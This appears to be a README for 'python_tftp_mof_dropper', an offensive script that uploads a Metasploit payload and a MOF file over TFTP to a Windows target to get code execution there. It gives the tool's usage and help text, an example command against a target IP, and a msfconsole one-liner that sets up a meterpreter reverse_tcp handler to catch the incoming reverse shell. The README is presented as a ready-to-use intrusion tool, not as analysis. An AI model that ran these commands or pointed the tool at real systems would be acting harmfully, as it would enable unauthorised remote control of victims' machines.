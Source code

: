 # python_tftp_mof_dropper

Transfers a MOF file and a payload via tftp to the target. Uses metasploit to generate the payload and the [tftpy](https://github.com/msoulier/tftpy) tftp library.

Usage:
```
python tftp_mof_dropper.py --help
usage: tftp_mof_dropper.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST
                           [--lport LPORT] [--exe_rfile EXE_RFILE]
                           [--mof_rfile MOF_RFILE] [--msf_payload MSF_PAYLOAD]

optional arguments:
  -h, --help            show this help message and exit
  --rhost RHOST         the remote host (default: None)
  --rport RPORT         the remote tftp port (default: 69)
  --lhost LHOST         the local host (default: None)
  --lport LPORT         the local port to listen on for incoming reverse shell
                        (default: 4444)
  --exe_rfile EXE_RFILE
                        the path on the remote host where the exe file (msf
                        payload) should be uploaded to (default:
                        /Windows/System32/)
  --mof_rfile MOF_RFILE
                        the path on the remote host where the mof file should
                        be uploaded to (default: /Windows/System32/wbem/mof/)
  --msf_payload MSF_PAYLOAD
                        the msf payload to use (default:
                        windows/meterpreter/reverse_tcp)
```

Example:
`python tftp_mof_dropper.py --rhost 1.2.3.4 --lhost 5.6.7.8`

Note: you must run a metasploit handler or netcat listener (depending on the payload you use) which captures the incoming reverse shell before executing the script. Create it with e.g. `msfconsole -x 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 0.0.0.0; run' -q`
